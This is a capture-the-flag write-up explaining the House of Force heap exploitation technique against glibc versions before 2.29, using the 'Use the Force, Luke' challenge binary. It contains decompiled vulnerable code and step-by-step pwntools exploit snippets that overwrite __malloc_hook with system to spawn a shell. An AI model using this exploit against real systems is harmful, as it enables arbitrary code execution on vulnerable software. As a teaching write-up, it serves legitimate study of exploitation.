

> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. 

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk              |
| --- | ---                         |
| USER DATA | USER DATA             |
| USER DATA | TOP CHUNK SIZE        |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.



As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now let's decompile the binary and see the code.

```c
int main(void)

{

  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak - 0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    scanf("%d",&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    ptr = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(ptr);
    read(0,ptr,buf_size + 8);
  }
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `bytes_to_allocate` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will follow the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ``/bin/sh\x00`` to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the ``/bin/sh`` string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```


After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the ``/bin/sh`` string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Let's visualize it now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0x0068732f6e69622f` are the string `/bin/sh`


We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.


We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` as a parameter to the `system()` function, thus giving us a shell.


You can download the full script [here](assets/solver.py)